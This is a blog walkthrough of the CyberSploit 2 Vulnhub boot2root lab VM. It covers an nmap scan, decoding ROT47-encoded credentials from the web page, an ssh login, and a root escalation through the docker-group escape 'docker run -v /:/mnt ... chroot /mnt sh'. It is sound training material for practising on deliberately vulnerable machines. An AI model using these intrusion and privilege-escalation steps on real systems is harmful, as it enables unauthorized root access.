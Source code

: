 ```yaml
---
date: 2020-07-30 10:18:54
layout: post
title: "Cybersploit 2 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:2 is a boot2root VM from Vulnhub. This is the second part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-2/mech.webp
optimized_image: /assets/img/uploads/cybersploit-2/mech-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 2, cybersploit 2 vulnhub, cybersploit 2 walkthrough, cybersploit 2 vulnhub walkthrough, cybersploit 2 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:2, a boot2root VM available on Vulnhub. This is the second part of the Vulnhub's CyberSploit Series and rated easy. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
192.168.1.8     cybersploit2.local
```

## Initial Enumeration and Shell

I started the enumeration by starting a port scan with Nmap, checking for open ports and default scripts.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit2.local 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit2.local (192.168.1.8)
Host is up (0.00036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 08:00:27:00:77:54 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

We have an ssh port open and an Apache 2.4.37 Web Server running on port 80. Looking at the port 80 on our web browser, we see some usernames and passwords along with their handles.

<center><br>
<img src="/assets/img/uploads/cybersploit-2/port80.png">
</center>

There is an entry on the 4th number which looks different from others. This is encrypted using some algorithm. Looking at the source code of the page, I found that it is encoded with ROT47.

<center><br>
<img src="/assets/img/uploads/cybersploit-2/source.png">
</center>

Next I went to CyberChef to decode the text and found a username <b>shailendra</b> and password <b>cybersploit1.</b>

<center><br>
<img src="/assets/img/uploads/cybersploit-2/cyberchef.png">
</center>

I used these credentials to login as user <b>shailendra</b> via ssh.

```r
root@kali:~# ssh shailendra@cybersploit2.local

The authenticity of host 'cybersploit2.local (192.168.1.8)' cant be established.
ECDSA key fingerprint is SHA256:uGYzWYklxeL1iDjLGh5cLrkGjTgqAJfxn3mkDaZ7C7M.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cybersploit2.local,192.168.1.8' (ECDSA) to the list of known hosts.
shailendra@cybersploit2.locals password: 
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$
```
## Root Flag

Inside the home directory of user shailendra, we have a file named <b>hint.txt.</b> This will have the hints for privilege escalation.

```r
[shailendra@localhost ~]$ ls
hint.txt

[shailendra@localhost ~]$ cat hint.txt
docker
```
We have docker as a hint. I saw the <b>id</b> of the user and found that we have <b>docker</b> installed and this user is added to the <b>docker group.</b>

```r
[shailendra@localhost ~]$ id

uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Looking at the <a href="https://gtfobins.github.io/gtfobins/docker/" rel=”nofollow”>GTFO Bins,</a> I found that we can exploit docker and mount the root directory on a docker container using the following command:

```r
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
df20fa9351a1: Pull complete 
Digest: sha256:185518070891758909c9f839cf4ca393ee977ac378609f700f60a771a2dfe321
Status: Downloaded newer image for alpine:latest
sh-4.4#
```

The exploit was successful and we are root! Now we can read our flag.

```r
sh-4.4# cat /root/flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/mattandersondesign" rel=”nofollow”>Matt Anderson.</a>
